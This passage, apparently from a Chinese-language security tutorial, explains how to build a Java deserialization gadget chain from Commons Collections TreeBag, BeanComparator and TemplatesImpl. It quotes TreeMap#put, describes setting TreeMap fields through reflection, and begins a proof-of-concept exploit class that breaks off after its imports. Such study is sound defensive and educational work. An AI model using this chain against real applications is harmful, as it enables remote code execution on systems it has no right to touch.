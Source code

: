 ```java
    }
}
```

在往`TreeMap`里放数据时就会进行比较来排序。

```java
public V put(K key, V value) {
    Entry<K,V> t = root;
    if (t == null) {
        compare(key, key); // type (and possibly null) check

        root = new Entry<>(key, value, null);
        size = 1;
        modCount++;
        return null;
    }
    int cmp;
    Entry<K,V> parent;
    Comparator<? super K> cpr = comparator;
    if (cpr != null) {
        do {
            parent = t;
            cmp = cpr.compare(key, t.key);
            if (cmp < 0)
                t = t.left;
            else if (cmp > 0)
                t = t.right;
            else
                return t.setValue(value);
        } while (t != null);
    }
    // ...
}
```

构造`TreeBag`的时候，调用`add`也会触发`map#put`，因此我们通过反射来构造

简单看看`TreeMap#put`的源码，首先它会判断根节点是否为空，最初没往里面放东西肯定是为空的。

接着主要变动的有三个属性`root`、`size`和`modCount`(`modCount`不改也没事)

根节点(`Entry`)的`parent`为`null`

如果要设置子节点，再接着设置`left`和`right`属性即可

我们这里只需要设置一个根节点就够了，根节点放入`TreeMap`时会对自身的`key`自己跟自己进行`compare`

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.collections.bag.TreeBag;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.TreeMap;

public class TreeBagTest {
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
```